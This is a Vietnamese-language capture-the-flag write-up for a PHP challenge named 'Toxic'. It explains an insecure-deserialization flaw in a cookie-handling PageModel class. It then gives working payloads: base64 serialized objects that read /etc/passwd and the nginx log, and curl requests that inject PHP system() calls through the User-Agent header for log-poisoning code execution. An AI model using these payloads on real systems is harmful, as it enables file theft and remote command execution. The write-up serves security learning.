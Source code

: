 # CHALLENGE DESCRIPTION

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

**Tags:** `PHP`, `source-code-analysis`, `insecure-deserialization`, `log-poisioning`
# Quick Preview

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `Toxic.zip`, ta được folder có cấu trúc như sau: 

```shell
Toxic
└── web_toxic
    ├── challenge
	│   ├── models
	│	│   └── PageModel.php
	│   ├── static
	│   │   ├── basement
	│   │   ├── css
	│   │   ├── images
	│   │   └── js
	│   ├── index.html
    │   └── index.php
    ├── config
	│   ├── fpm.conf
	│   ├── nginx.conf
	│   └── supervisord.conf
	├── build-docker.sh
	├── Dockerfile
	├── entrypoint.sh
	└── flag
```

→ Ta có cái nhìn sơ lược về Web App: 
+ Web Tech: `PHP`
+ Server: `nginx` 

Đây là giao diện của trang web

![](../../attachments/Pasted%20image%2020220727042358.png)

→ Mình chưa tìm thấy tính năng gì của trang web cả. → Đọc source code thôi!

# Source Code Analysis
Khi mình đọc được code của file `index.php`, mình biết được sự tồn tại của cookie cũng như cách hình thành nên nó.

App sẽ tạo giá trị của cookie bằng cách thực hiện quá trình `serialize` biến `$page`, sau đó encode bằng thuật toán base64. Đồng thời cũng gán thời gian tồn tại của `cookie` là 86400 giây.

```php
<?php

spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);

unserialize($cookie);
```

Nhìn kĩ lại biến `$page` là một `object PageModel`, vậy PageModel này là gì ? Tiếp tục nhìn source code, mình phát hiện file `PageModel.php` nằm trong folder `Toxic\web_toxic\challenge\models\` có nội dung như sau:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

→ PageModel là một object có 1 property là `$file` và một magic method là `__destruct()` (method này sẽ tự động được gọi khi  1 object PageModel không được sử dụng nữa, cụ thể [here](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct))

Ở đây, app đã bị lỗi `Insecure deserialization`.  Bởi những chuỗi các yếu tố liên kết sau:

+ `Untrusted Data` ( `$_COOKIE['PHPSESSID']` ) rơi vào quá trình `Deserialize`
+ Một `object` có `magic method` thực thi một `sink` nguy hiểm ( `include()` )

# Exploit

Quá trình exploit khá đơn giản (khi chưa bị Object Injection cũng như Gadget Chains).

Đầu tiên, mình sẽ xem hình dạng của cookie trước và sau khi decode base64 như thế nào. Và trông mặt mũi một object khi được seriallize.

![](../../attachments/Pasted%20image%2020220727051536.png)

Sau khi decode base64, cookie của ta có giá trị như sau:

![](../../attachments/Pasted%20image%2020220727051637.png)

Bắt đầu exploit bằng một payload đơn giản, mục đích của payload này là đọc được file /etc/passwd. Và mình sẽ thử modify cookie lại cho đúng syntax của một object sau khi seriallize như sau:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

> Để đảm bảo đúng cấu trúc syntax của một object khi seriallize thì có thể tham khảo thêm [here](https://www.php.net/manual/en/function.serialize.php). 

Tiếp theo thực hiện encode base64 lại object.

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```

Quăng vào cookie của trang web và xem kết quả:

![](../../attachments/Pasted%20image%2020220727052012.png)

→ Ngon. Hoàn toàn đọc được file /etc/passwd của server.

## Log Poisoning

Cũng tương tự, mình sẽ tạo ra 1 payload để có thể đọc được `file log` của server. Để biết file này nằm đâu ta có thể xem cho file `Docker` của src.

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

Tiếp theo mình sẽ thực hiện gửi một cú request với User-Agent như dưới:

```console
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A "<?php echo 1+1;?>"
HTTP/1.1 200 OK
<--SNIP-->
```

Đây là kết quả

![](../../attachments/Pasted%20image%2020220727053231.png)

Payload đơn giản hoạt động tốt, tiếp đến ta sẽ thực hiện list ra xem thư mục root có những gì

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('ls /');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:08 GMT; Max-Age=86400; path=/
```

Kết quả:

![](../../attachments/Pasted%20image%2020220727053501.png)

## Get Flag 

Tiến hành đọc FLAG thôi

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('cat /flag_Wqi4U');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:26 GMT; Max-Age=86400; path=/
```

![](../../attachments/Pasted%20image%2020220727053924.png)


